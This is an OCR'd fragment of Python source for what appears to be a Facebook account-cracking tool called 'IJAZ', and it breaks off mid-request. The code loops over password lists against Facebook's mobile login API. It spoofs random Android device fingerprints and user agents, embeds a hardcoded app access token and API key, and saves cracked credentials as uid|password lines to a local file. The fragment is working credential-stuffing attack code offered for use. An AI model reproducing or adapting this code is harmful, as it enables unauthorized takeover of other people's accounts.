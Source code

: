                                         open('/sdcard/IJAZ-rnd-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass

def IJAZ2(ids,passlist):
	global loop
	global oks
	try:
		for pas in passlist:
			sys.stdout.write('\r\r\033[1;37m [𝐈𝐣𝐚𝐳-M2] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
			application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
			application_version_code=str(random.randint(000000000,999999999))
			__iam_genius = random.choice(android_models)
			phone_model = __iam_genius.split('|')[0]
			phone_company = __iam_genius.split('|')[1]
			dimensions = __iam_genius.split('|')[2]
			ffb=random.choice(fbks)
			dvlk = random.choice(usr)
			#1 method issue es ma ha
			ua_string = 'Dalvik/2.1.0 (Linux; U; Android 10; Infinix X690B Build/QP1A.190711.020) [FBAN/MobileAdsManagerAndroid;FBAV/236.0.0.24.108;FBBV/405428495;FBRV/0;FBLC/en_US;FBMF/INFINIX MOBILITY LIMITED;FBBD/Infinix;FBDV/Infinix X690B;FBSV/10;FBCA/arm64-v8a:armeabi-v7a:armeabi;FBDM/{density=2.97,width=720,height=1612};FB_FW/1;]'
			device_family_id = str(uuid.uuid4())
			adid = str(uuid.uuid4())
			machine_id = ''.join(random.choice(ascii_uppercase+ascii_lowercase+digits+'_') for _ in range(24))
			data = {'adid':adid,
				'format':'json',
				'device_id':device_family_id,
				'email':ids,
				'password':pas,
				'generate_analytics_claim':'1',
				'community_id':'','cpl':'true','try_num':'1',
				'family_device_id':device_family_id,
				'credentials_type':'device_based_login_password',
				'generate_session_cookies':'1',
				'error_detail_type':'button_with_disabled',
				'source':'device_based_login',
				'machine_id':machine_id,
				'login_location_accuracy_m':'1.0',
				'meta_inf_fbmeta':'',
				'advertiser_id':adid,
				'encrypted_msisdn':'',
				'currently_logged_in_userid':'0',
				'locale':'en_PK',
				'client_country_code':'PK',
				'method':'auth.login',
				'fb_api_req_friendly_name':'authenticate',
				'fb_api_caller_class':'com.facebook.account.login.protocol.Fb4aAuthHandler',
				'access_token':'350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
			head = {
				'content-type':'application/x-www-form-urlencoded',
				'x-fb-sim-hni':str(random.randint(2e4,4e4)),
				'x-fb-connection-type':'unknown',
				'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
				'api_key': '8114af471d039628db5c68cb127af936',
				'user-agent':ua_string,
				'x-fb-net-hni':str(random.randint(2e4,4e4)),